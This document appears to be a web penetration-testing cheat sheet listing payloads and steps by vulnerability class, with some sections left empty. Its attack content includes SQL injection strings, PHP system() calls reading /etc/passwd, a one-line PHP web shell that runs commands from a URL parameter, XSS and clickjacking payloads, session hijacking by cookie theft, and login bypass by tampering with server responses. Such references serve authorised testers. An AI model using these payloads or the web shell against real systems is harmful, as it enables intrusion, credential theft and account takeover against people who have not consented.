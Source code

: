 ## Time Based Blind SQL Injection:
```
'(select * from (select(sleep(10)))a)
,(select*from(select(sleep(15)))a)
';WAITFOR DELAY '0:0:30'--
```
## Error Based SQL Injection:

## Boolean Based Blind SQL Injection:
```
'2 OR 1=1
'2 AND 1=1
```
## Local File Inclusion (LFI):
```


```
## Remote Code Execution (RCE):
```
<?php system("cat /etc/passwd");?>
<?php system("id");?>
<?php echo phpinfo(); ?>
<?php include 'C:\Windows\System32\drivers\etc\hosts';?>
```
## Malicious File Upload (Shell Execution):
```
<?php system($_GET['cmd']); ?>

https://github.com/hackerhijeck/For_Me/blob/main/Web_Shell.php
```
## Application is Vulnerable to Reverse Web shell (Shell Execution):
```

```
## File Upload Bypass:
```
https://book.hacktricks.xyz/pentesting-web/file-upload
```
## Session Hijacking:
```
Step1: Using xss hunter payload, execute the payload in logged in user account.
Step2: After got the cookies in the XSS Hunter.
Step3: Copy the cookies and before login paste and change into the cookies and refresh it.
```
## Session Fixation in The Application:
```
Step1: Before login, Check the cookie or session token.
Step2: Then After login, Check the cookie or session token, If same token or cookies is there.
```
## URL Redirection in the application:
##### Endpoint Pattern:
```
/?url=
/?redirect_url:
/?checkout_url=
/?login_url=
/?redirect_uri=
```
## Reflected Cross Site Scripting Attack:
```
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
javascript:alert(1)//
"onmouseover=alert(1);
<x onclick=alert(1)>click!
```
## HTML Injection
```
<h1>HTML_Injection</h1>
<marquee>HTML_Injection</marquee>
```
## Link Injection:
```
<a href="https://www.intelliroot.com">ClickMe</a>
```
## Iframe Injection:
```
<iframe src="https://www.intelliroot.com"></iframe>
```
## Blind Cross Site Scripting Attack:
```
XSS Hunter payload
```
## Admin/User Login Authentication Bypass Using Success Response:
#### Process 1:
```
Step1: Login panel capture the request and Do intercept and click to respnse to this request and then forward the request
Step2: If Response code 404 Forbidon then change to 200 OK. and then forward the request.
```
#### Process 2:
```
Step1: In login panel first logged in a valid user and capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step2: Copy the 200 OK reponse data and save it any txt format.
Step3: Now try to unathorized user, in login panel capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step4: In Response data, paste the data which copied from a valid user, and then forward the request.
```
## Cross Site Request Forgery (CSRF):
```
Step1: Capture any POST data and click generate CSRF poc, save it into the html file.
Step2: Change the POST data to anything you want.
Step3: Now open into the browser and click submit.
```
### Test CGI script exposes environment variables
### Account Takeover through forget password
### Improper File Content Validation in the Application
### No Session Termination After Password Change:
```
Step1: Login as a user, After logged in capture a request of any functionality and get into the Repeater and send to Response.
Step2: Wait minimum 40,50 minutes, Do not loggout the account.
Step3: After complete the time, then again click send to the reponse in the Burpsuite.
Step4: If its working properly, then it No Session Termination Vulnerability.
```
### Password History Check is not Implemented
### Concurrent Logins with the Same Username in admin/user account
### Trace method Enabled
### Full path disclosure
### Improper Input Validation in the Application:
```
<script>alert(1)</script>
<h1>Test</h1>
```
### Client side validation bypass of email and phone number verification
### Application is Vulnerable to Clickjacking Attacks:
```
<!DOCTYPE html>
<html>
<head>
<title>This is Clickjacking Test Page!</title>
</head>
<body>
<iframe src="https://url.com" width="500" height="500"></iframe>
</body>
</html>
```
### OpenSSL Version disclose in the application:
```

```
### Last Login Time Not Implemented in the Application
